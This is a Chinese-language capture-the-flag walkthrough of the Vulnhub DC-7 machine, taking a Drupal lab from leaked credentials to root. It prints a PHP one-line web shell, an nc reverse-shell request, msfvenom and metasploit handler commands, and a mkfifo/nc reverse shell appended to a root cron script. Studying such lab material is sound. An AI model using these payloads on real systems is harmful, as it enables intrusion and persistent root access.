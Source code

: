 ```yaml
---
layout: mypost
title: Vulnhub靶机DC7渗透
categories: [靶机]
---
```


靶机下载地址：[DC7](https://www.vulnhub.com/entry/dc-7,356/)

Kali Linux 地址：192.168.43.110

![](https://z3.ax1x.com/2021/04/27/gC89aV.png)

DC7 地址：192.168.43.75

访问 web 页面

![](https://z3.ax1x.com/2021/04/27/gC8ZrR.png)

好嘛，还是 drupal

![](https://z3.ax1x.com/2021/04/27/gC8KIK.png)

这次多了一处个人信息

![](https://z3.ax1x.com/2021/04/27/gCGnyj.png)

简单社工一下

![](https://z3.ax1x.com/2021/04/27/gCG9OA.png)

![](https://z3.ax1x.com/2021/04/27/gCGItf.png)

![](https://z3.ax1x.com/2021/04/27/gCGOns.png)

![](https://z3.ax1x.com/2021/04/27/gCJShT.png)

config.php 很可疑

![](https://z3.ax1x.com/2021/04/27/gCJku9.png)

得到 dc7user 的密码 MdR3xOgB7#dW

只能登录 ssh

![](https://z3.ax1x.com/2021/04/27/gCJEH1.png)

![](https://z3.ax1x.com/2021/04/27/gCJUC8.png)

提示邮箱

![](https://z3.ax1x.com/2021/04/27/gCJyEq.png)

提示 /opt/scripts/backups.sh 

![](https://z3.ax1x.com/2021/04/27/gCJW2F.png)

在 /var/www/html 下，drush 可以用来修改 drupal 站点用户密码

![](https://z3.ax1x.com/2021/04/27/gCJO2D.png)

根据简单扫目录结果和之前经验，admin 是 drupal 站点默认最高权限用户

```bash
drush user-password admin --password="Stan"
```

![](https://z3.ax1x.com/2021/04/27/gCYZrj.png)

成功修改密码

![](https://z3.ax1x.com/2021/04/27/gCYKI0.png)

这里借鉴 [Drupal to Reverse Shell](https://www.sevenlayers.com/index.php/164-drupal-to-reverse-shell) 的思路，下载 [插件](https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz)

![](https://z3.ax1x.com/2021/04/27/gCYysH.png)

安装

![](https://z3.ax1x.com/2021/04/27/gCY2dI.png)

选用

![](https://z3.ax1x.com/2021/04/27/gCYRot.png)

测试

![](https://z3.ax1x.com/2021/04/27/gCYbes.png)

![](https://z3.ax1x.com/2021/04/27/gCYvWT.png)

可行，准备反弹 shell

可以传个一句话🐎

```shell
<?php system($_GET['a'])?>
```

本地监听访问 

```url
http://192.168.43.75/node/4?a=nc -e /bin/bash 127.0.0.1 2333
```

![](https://z3.ax1x.com/2021/04/27/gCtmlD.png)

或者用 msfvenom 生成 payload

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.110 LPORT=1100 -f raw
```

![](https://z3.ax1x.com/2021/04/27/gCt8tP.png)

配合 metasploit

```bash
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.43.110
set lport 1100
```

![](https://z3.ax1x.com/2021/04/27/gCtYp8.png)

成功上线，用 python 获取标准交互 shell

![](https://z3.ax1x.com/2021/04/27/gCNxr4.png)

![](https://z3.ax1x.com/2021/04/27/gCUUds.png)

结合之前信息知道有一个 root 权限执行的计划任务，调用了 backups.sh 脚本，而这个脚本只有 root 和 www-data 用户可以修改

使用 drupal 反弹回来的 shell 用户是 www-data，所以接下来是将反弹 shell 的代码附加到backups.sh 脚本里

> 计划任务是 root 权限执行的，所以反弹回来的 shell 也会是 root 用户

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.110 4311 >/tmp/f" >> backups.sh
```

![](https://z3.ax1x.com/2021/04/27/gCUDzT.png)

监听等待计划任务执行，大概十几分钟

![](https://z3.ax1x.com/2021/04/27/gCU2w9.png)

Pwned！